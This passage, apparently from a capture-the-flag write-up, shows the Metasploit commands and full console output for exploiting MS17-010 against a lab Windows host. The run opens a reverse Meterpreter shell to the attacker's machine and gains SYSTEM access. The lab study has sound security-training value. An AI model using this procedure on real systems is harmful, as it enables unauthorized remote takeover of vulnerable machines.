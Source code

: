 Configure :

```text
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> set LHOST 10.10.14.18
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> set RHOSTS 10.10.10.4
```

Confirm the vulnerability :

```text
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> check

[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.4:445 - The target is vulnerable.
```

Exploit :

```text
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms17_010_psexec) >> exploit

[*] Started reverse TCP handler on 10.10.14.18:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -        [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x822ad100
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... EigZSnPL.exe
[*] 10.10.10.4:445 - Created \EigZSnPL.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \EigZSnPL.exe...
[*] Meterpreter session 1 opened (10.10.14.18:4444 -> 10.10.10.4:1032 ) at 2022-04-10 21:24:49 +0200

(Meterpreter 1)(C:\WINDOWS\system32) > getuid
Server username: NT AUTHORITY\SYSTEM
```

Got a shell under the SYSTEM account.

## maintaining access

No action required

## Cleaning
